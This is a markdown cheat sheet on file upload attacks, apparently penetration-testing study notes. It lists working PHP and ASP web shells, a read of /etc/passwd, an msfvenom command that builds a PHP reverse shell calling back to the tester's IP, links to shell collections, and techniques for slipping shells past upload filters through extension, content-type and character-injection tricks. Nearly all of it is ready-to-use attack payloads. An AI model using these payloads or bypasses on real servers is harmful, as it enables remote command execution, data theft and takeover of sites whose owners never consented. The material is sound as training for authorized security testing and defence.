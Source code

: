 ```yaml
---
title: File Upload Attack
---
```


# Web Shells

| **Web Shell**   | **Description**   |
| --------------|-------------------|
| `<?php file_get_contents('/etc/passwd'); ?>` | Basic PHP File Read | 
| `<?php system('hostname'); ?>` | Basic PHP Command Execution | 
| `<?php system($_REQUEST['cmd']); ?>` | Basic PHP Web Shell | 
| `<% eval request('cmd') %>` | Basic ASP Web Shell | 
| `msfvenom -p php/reverse_php LHOST=OUR_IP LPORT=OUR_PORT -f raw > reverse.php` | Generate PHP reverse shell | 
| [PHP Web Shell](https://github.com/Arrexel/phpbash) | PHP Web Shell | 
| [PHP Reverse Shell](https://github.com/pentestmonkey/php-reverse-shell) | PHP Reverse Shell | 
| [Web/Reverse Shells](https://github.com/danielmiessler/SecLists/tree/master/Web-Shells) | List of Web Shells and Reverse Shells | 

# Bypasses

| **Command**   | **Description**   |
| --------------|-------------------|
| **Client-Side Bypass** |
| `[CTRL+SHIFT+C]` | Toggle Page Inspector |
| **Blacklist Bypass** |
| `shell.phtml` | Uncommon Extension |
| `shell.pHp` | Case Manipulation |
| [PHP Extensions]() | List of PHP Extensions |
| [ASP Extensions]() | List of ASP Extensions |
| [Web Extensions]() | List of Web Extensions |
| **Whitelist Bypass** |
| `shell.jpg.php` | Double Extension |
| `shell.php.jpg` | Reverse Double Extension |
| `%20, %0a, %00, %0d0a, /, .\, ., …` | Character Injection - Before/After Extension |
| **Content/Type Bypass** |
| [Web Content-Types]() | List of Web Content-Types |
| [Content-Types]() | List of All Content-Types |
| [File Signatures]() | List of File Signatures/Magic Bytes |

# Limited Uploads

| **Potential Attack**   | **File Types**   |
| --------------|-------------------|
| `XSS` | HTML, JS, SVG, GIF | 
| `XXE/SSRF` | XML, SVG, PDF, PPT, DOC | 
| `DoS` | ZIP, JPG, PNG | 